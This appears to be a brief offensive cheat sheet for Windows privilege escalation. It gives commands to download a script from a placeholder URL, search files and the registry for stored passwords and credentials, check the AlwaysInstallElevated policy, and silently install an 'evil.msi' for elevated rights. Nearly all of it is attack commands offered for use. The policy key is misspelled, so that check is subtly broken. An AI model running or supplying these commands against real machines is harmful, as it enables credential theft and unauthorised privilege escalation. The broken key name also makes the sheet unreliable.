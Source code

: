 TO FORMAT

List powershell module dirs:
echo $Env:PSModulePath

Download file:
Invoke-WebRequest http://url-to/file.ps1 -OutFile C:\path\to\file.ps1

Search for passwords:
cmd style: dir /s \*pass\* == \*cred\* == \*vnc\* == \*.config\*
powershell style: findstr /si password \*.xml \*.ini \*.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

MSI REG:
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstalledElevated
-> 1
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstalledElevated
-> 1
=> get an evil.msi
=> msiexec /quiet /qn /i evil.msi


